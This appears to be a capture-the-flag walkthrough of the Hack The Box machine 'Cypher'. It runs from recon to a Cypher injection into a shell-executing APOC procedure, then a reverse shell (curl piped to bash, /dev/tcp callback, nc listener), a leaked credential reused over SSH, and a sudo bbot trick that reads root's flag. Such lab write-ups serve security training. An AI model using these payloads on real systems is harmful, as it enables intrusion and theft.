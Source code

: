 ## Recon
-> nmap :
``` bash
╰─ nmap -sC -sV -p- -Pn --min-rate 10000 10.10.11.57 -oN Cypher-nmap 
Nmap scan report for 10.10.11.57
Host is up (0.093s latency).
Not shown: 62691 closed tcp ports (conn-refused), 2842 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-> Add `cypher.htb` to `/etc/hosts`:
`10.10.11.57 cypher.htb`

### source code :
i noticed in the source code a comment to make into consideration for later `TODO: don't store user accounts in neo4j` 
:
```javascript
<script>
    // TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
```

-> This gives me the idea that neo4j handles backend authentication process

-> When i try an xss paylod i get this error :
`<IMG SRC= onmouseover="alert('xxs')">`

![Pasted image](images/20250423223733.png)

-> Indicating a **Cypher Injection** (injection for GQL), where there is a cypher query to fetch data like this :
```GQL
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '<USER_INPUT>' RETURN h.value AS hash
```

### directory fuzzing :


```bash
╰─ gobuster dir -u cypher.htb -w /usr/share/dirb/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 4562]
/about                (Status: 200) [Size: 4986]
/login                (Status: 200) [Size: 3671]
/demo                 (Status: 307) [Size: 0] [--> /login]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
```

![[Pasted image 20250423230317.png]]

#### APOC 
->Neo4j supports the APOC (Awesome Procedures on Cypher) Core library. The APOC Core library provides access to user-defined procedures and functions which extend the use of the [Cypher query language](https://neo4j.com/docs/cypher-manual/current/introduction/) into areas such as data integration, graph algorithms, and data conversion.


-> In the jar we find :
```java
public class CustomFunctions {  
    @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)  
    @Description("Returns the HTTP status code for the given URL as a string")  
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {  
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {  
            url = "https://" + url;  
        }  
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};  
        System.out.println("Command: " + Arrays.toString(command));  
        Process process = Runtime.getRuntime().exec(command);  
        BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));  
        BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));  
        StringBuilder errorOutput = new StringBuilder();
```

-> This code enables us to do a remote code execution 
### shell creation

First create a shell script to upload to the server :
```bash
echo "/bin/bash -i >& /dev/tcp/10.10.16.86/4444 0>&1" > shell.sh
```

-> Use a python http server to upload it 
```bash
python3 -m http.server 80
```
-> Run a nc listner in the declared port in shell.sh
```bash
nc -lvnp 4444
```

-> In burpsuite use below to gain foothold to the system (upload the shell and execute it)

```json
"username":"haha' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.86/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"test"
```

-> Here we get that the shell is uploaded :
```bash
╰─ sudo python3 -m http.server 80

[sudo] password for med: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.57 - - [24/Apr/2025 00:10:40] "GET /shell.sh HTTP/1.1" 200 -
```

-> And we have a shell :
```bash
╰─ nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 10.10.11.57 40898
bash: cannot set terminal process group (1446): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```

-> We find a gfile called `bbot_preset.yml`

```bash
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

-> We connect using ssh to `graphasm` and we got user flag :
```bash
╰─ ssh graphasm@cypher.htb
graphasm@cypher.htb's password: 

graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
```

-> When we use `sudo -l` to see the abilities of our user we fin :
```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot

```
-> Our user can run an app caller bbot (which is an osint app)
-> After a bit of research i found a way to get around it and get the flag inspired by this amazing article : https://azraeldeathangel.medium.com/privilege-escalation-in-linux-via-bbot-binary-92558b4c7f30

-> where i will abuse the yara functionnality by specifying the root flag as a yara rule, the binary bbot then will display it's content in the debug information like this :

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt --debug
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot
...

[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
...
```
